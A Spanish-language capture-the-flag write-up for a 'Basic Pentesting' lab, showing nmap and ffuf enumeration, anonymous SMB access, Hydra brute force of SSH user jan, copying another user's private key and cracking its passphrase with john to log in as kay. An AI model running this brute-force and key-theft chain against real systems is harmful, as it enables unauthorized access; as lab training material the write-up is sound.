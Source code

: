 # Basic Pentesting — Writeup

## TL;DR

Se identificaron servicios HTTP, SSH y Samba. Se encontró un share anónimo con `staff.txt` que sugiere el usuario `jan`. Se obtuvo acceso SSH a `jan` por fuerza bruta (wordlist `rockyou`), desde `jan` se recuperó la clave privada de `kay` y se crackeó su passphrase con `john`, permitiendo acceso final como `kay`.

---

## Enumeración (nmap)

**Comando**

```bash
nmap -sV --open $IP
```

**Comentario:** `-sV` detecta versiones de servicios. 

**Resultado**
```bash
PORT    STATE SERVICE     VERSION
22/tcp  open  ssh         OpenSSH 8.2p1 Ubuntu 4ubuntu0.13 (Ubuntu Linux; protocol 2.0)
80/tcp  open  http        Apache httpd 2.4.41 ((Ubuntu))
139/tcp open  netbios-ssn Samba smbd 4
445/tcp open  netbios-ssn Samba smbd 4
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
**Resumen**

* 22/tcp open  ssh (OpenSSH 8.2p1)
* 80/tcp open  http (Apache/2.4.41)
* 139/445/tcp open Samba (smbd)

---

## Enumeración de directorios web (ffuf)

**Comando**

```bash
ffuf -u http://$IP/FUZZ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-small.txt -t 300 -s -c
```

**Comentario:** `-t 300` define la cantidad de hilos; `-s` silencia headers extra; `-c` activa color en resultado.

**Resultado**
```bash
# directory-list-2.3-small.txt
#
# Attribution-Share Alike 3.0 License. To view a copy of this
#
# This work is licensed under the Creative Commons
# on at least 3 different hosts
development
```
**Resultado relevante**

* `/development`

---

## Smb — share anónimo

**Enumeración**

```bash
smbclient -L //$IP
```

**Resultado**
```bash
	Sharename       Type      Comment
	---------       ----      -------
	Anonymous       Disk      
	IPC$            IPC       IPC Service (Samba Server 4.15.13-Ubuntu)
```
**Resultado relevante**
* Share accesible: `Anonymous (Disk)`

**Conexión y archivo**

```bash
smbclient //$IP/Anonymous
smb: \> ls
smb: \> get staff.txt
```
<details>
  <summary><i>staff.txt</i></summary>
  
```bash
  Announcement to staff:

PLEASE do not upload non-work-related items to this share. I know it's all in fun, but
this is how mistakes happen. (This means you too, Jan!)

-Kay
```

</details>

**Comentario:** Indicio de usuario `jan`. Revisar si el share expone archivos sensibles o rutas del filesystem.

---

## Fuerza bruta SSH (usuario: jan)

**Comando**

```bash
hydra -l jan -P /usr/share/wordlists/rockyou.txt -t 4 ssh://$IP
```

**Comentario:** `-l` especifica login; `-P` wordlist; `-t 4` tareas paralelas. Usar siempre con autorización.

**Resultado**
```bash
Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-09-27 15:49:48
[DATA] max 4 tasks per 1 server, overall 4 tasks, 14344399 login tries (l:1/p:14344399), ~3586100 tries per task
[DATA] attacking ssh://$IP/
[22][ssh] host: $IP   login: jan   password: REDACTED
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2025-09-27 16:04:48
```

---

## Acceso inicial y obtención de clave

**Operaciones realizadas**

```bash
ssh jan@$IP
# desde la sesión de jan:
scp jan@$IP:/home/kay/.ssh/id_rsa ./
```

**Comentario:** La clave privada `id_rsa` estaba accesible desde la cuenta `jan`.

---

## Cracking de passphrase y acceso final

**Conversión y cracking**

```bash
ssh2john id_rsa > rsa_john.txt
john rsa_john.txt --wordlist=/usr/share/wordlists/rockyou.txt
```

**Resultado**
```bash
Using default input encoding: UTF-8
Loaded 1 password hash (SSH, SSH private key [RSA/DSA/EC/OPENSSH 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
PASSWORD_REDACTED          (id_rsa)     
1g 0:00:00:00 DONE (2025-09-27 15:42) 10.00g/s 827360p/s 827360c/s 827360C/s behlat..bball40
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```
**Uso**

```bash
ssh -i id_rsa kay@$IP
# introducir passphrase para la clave
cat pass.bak
```
